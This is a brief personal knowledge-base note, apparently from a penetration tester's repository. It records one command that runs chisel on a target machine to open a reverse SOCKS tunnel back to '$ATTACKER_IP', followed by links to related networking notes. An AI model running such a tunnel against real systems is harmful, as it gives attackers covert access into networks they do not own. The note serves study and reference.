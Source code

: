 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

` zet/20221003150108/README.md `

# Related

- [20221003150110](/zet/20221003150110/README.md) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:

    #networking #port 
